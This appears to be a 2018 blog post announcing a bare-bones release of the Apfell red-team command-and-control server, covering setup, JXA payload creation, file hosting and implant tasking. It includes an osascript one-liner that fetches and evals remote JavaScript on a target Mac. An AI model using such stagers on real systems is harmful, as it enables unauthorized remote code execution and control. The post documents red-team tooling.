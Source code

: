 ```yaml
---
title: 'Bare-Bones Apfell server code release'
date: 2018-07-04
permalink: /posts/2018/07/bare-bones-apfell-server-code-release/
tags:
  - Mac
  - Red Teaming
  - Database
  - Postgres
  - Web
---
```

It's been a long time since my last post, but it's finally time for the bare-bones Apfell server code release. There will also be a drop of a bare-bones Apfell implant to go with it and an accompanying blog series coming soon talking about design decisions, future ideals, and updates.

I've added a few more components to the bare-bones release to round it out and make it at least somewhat usable. Specifically:
*  Payloads - JXA
   *  I created the ability to use the base JXA template, swap in your own callback interval and server/port
*  Attacks - Host File
   *  I created the ability for the server to spin off python subprocesses to host files with user defined directories and ports to server up the JXA implants
*  API - CommandLines
   *  I created a relatively simple way to display examples command lines and explanations for the RESTful interfaces exposed by the server
*  API - apfell-jxa help
   *  I added in a little bit of information about the different basic commands available in the jxa implant and what the differences are
   
Before I post the link for the apfell code, we should take one more walkthrough for how information flows between all the components.

You can pip install the requirements.txt document to get all of the necessary python libraries, then run the setup.sh script to install and setup the postgresql database.
Inside of the main __init__.py file, you'll find a few things for you to customize. Specifically, the db_user, db_pass, and server_ip address should all be updated for your environment.
Then, simply run `python server.py` and you're up and running!

Open up a browser and navigate to the ip:port you just specified. You won't have an account yet, so click `Click to Register!` and create an account. When you log in, you'll be welcomed by a screen like the following:
![alt text][apfell-welcome-screen]

Click over to payloads and JXA (this is currently the only payload available, but there will be more coming soon). Obfuscation is an example of something that's hopefully coming soon, but right now that checkbox does nothing. Fill out all of the fields and click `Create Payload` to create your first apfell-jxa payload.
Specify the callback host and port to be where you will end up hosting this file. We'll do that part next. I give you three possibilities for how to execute the file depending on how you plan on getting the payload over to the remote system. 
Apfell is a post-exploit system, so it's up to you to find the initial access vector, then you can start using this.
![alt text][apfell-create-jxa]

The next main step is to host this file somewhere. I have a lot of ideas for how to display this information and save it off, but it's not required for the initial bare-bones release. If you go to `Attacks-Host File`, you'll just see some basic information. The main way to work with this right now is through the RESTful API.
For our example, we already have Apfell running on port 80, so lets host this file on port 8080. It's pretty simple with the RESTful API:

`appy@ubuntu:~$ curl -X POST -d '{"port":8080, "directory": "/home/appy/Desktop/"}' http://localhost/api/v1.0/attacks/host_file`

We can confirm this is running either with another query or from the browser by hitting the API:
![alt text][apfell-view-web-servers]

Now, we can go over to the target macOS box, open up the Terminal.app, and run the following code:
`osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('HTTP://192.168.0.119/example.js')),$.NSUTF8StringEncoding)));"`

Now you can click over to `Operations -> Callbacks` and see our new callback!
![alt text][apfell-new-callback]

click on `Interact` to have a new tab pop up that you can select. You'll also notice when you select this tab that the box at the very bottom of the screen changed to reflect the information about the current tab. This is where you can submit tasks for the apfell-jxa implant.
For example, we can do a few different kinds of tasks, and they will illustrate the output format for us:
![alt text][apfell-tasking]

There are three types of operations for the current apfell-jxa implant - shell commands, javascript commands, and deepunwrapped javascript commands (these are the ones utilizing the ObjectiveC-JavaScript bridge). The last one is potentially the most powerful, but also the most confusing.
Using the ObjectiveC bridge, I called and ObjectiveC function to get the current list of names my host has. The `js` command can also run these commands, but if the resulting type is an ObjectiveC type, you'll have issues getting anything back. The unwrap (or deepunwrap) capabilities allows us to change standard datatypes
back from the ObjectiveC world to the normal world.

When you're done working with an implant, you can task it to exit and remove it from your screen. When you do this, I mark the implant as no longer active, but I keep it in the database. I do this so that when I write a report-generating feature, you'll still have all the info from all of the implants spawned during an operation, but you don't need to leave them cluttering up your view.
If you simply click the `Hide Tasks` option for an implant, all that does is hide the bottom level tab from your view so things are a little cleaner. 
`Keystrokes` and `Screenshots` are currently placeholders, but are on my laundry list of things to add to the next release.

If you want information on the RESTful command-line interactive capability of Apfell, go to `API -> CommandLines`. 
![alt text][apfell-api-cli]

Lastly, there's a little bit of documentation on the three commands for apfell-jxa that I already mentioned under the `API -> apfell-jxa help` dropdown.

Like I said, this is a pretty bare-bones release, but illustrates everything working together through the process of making a working framework.
Now, that was the UI and a little bit of the RESTful interface, but how does the information actually flow for all of that? It seems like a lot of moving pieces based on what I covered in the previous blog posts, but it's not too crazy.

When the implant initially calls home, it sends a RESTful HTTP POST request to the server with some basic information. This information is then stored in the postgres database. If you don't have the browser open, the process stops there until you manually query it with the other RESTful APIs.
If you do have the browser open though, when you go to the `Operations -> callbacks` page, you're opening a few websockets back to the database and requesting all of the relavent information about the current callbacks, and asking to be notified if there are any updates. 
When you do get a new callback, a callback checks for new tasking, or some status on your callback changes, this information gets pushed asynchronous from the database through the web server up to your browser. This same process happens with any tasking and responses. You can then interact with the dynamically generated information for that callback in the browser.
When you want to task the implant, your commands are actually just RESTful queries back to the server, which saves the information in the database. Two things now happen:
*  There was a change in the database, so that change is pushed back up to your browser. This means that I purposefully don't immediately display your tasking to you. I wait until it's confirmed by the database. I do this because of this next part.
*  Now that your tasking is in the database, the next time the implant checks in, it'll get that tasking and set the status of the task to in progress. This way you're only seeing what's registered in the database. This helps keep everybody on the same page with each other and the implants.

I didn't want a scenario when it looks like you task something on your screen, but somehow the connection to the server is dead. You'll only see the tasking if it's to the point where the implant can actually see it. Similarly, I keep track of the progress of tasking via the RESTful APIs. I don't display this to the user since it might be a bit much, but if you query the tasks via the API, you'll see that their status is either `submitted`, `processing`, or `completed`. 

See, not too crazy. The hardest part for me to learn has been all of the web aspects. I've never done web programming before, so trying to make sure that the interfaces you see for the callbacks is all dynamically generated and updated in real time without having to refresh has been an interesting challenge.
One of the next big things for me to tackle is getting proper authentication and encryption throughout the process. Since this was all new to me, I wanted to make sure I could get the basics down before starting to add complexity.


[apfell-welcome-screen]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-welcome-screen.JPG "Apfell Welcome Screen"
[apfell-create-jxa]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-create-jxa.JPG "Apfell Create JXA Payload"
[apfell-view-web-servers]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-view-web-servers.JPG "Apfell View Web Servers"
[apfell-new-callback]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-new-callback.JPG "Apfell New Callback"
[apfell-tasking]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-tasking.JPG "Apfell Tasking"
[apfell-api-cli]: https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-api-cli.JPG "Apfell API CLI Examples"
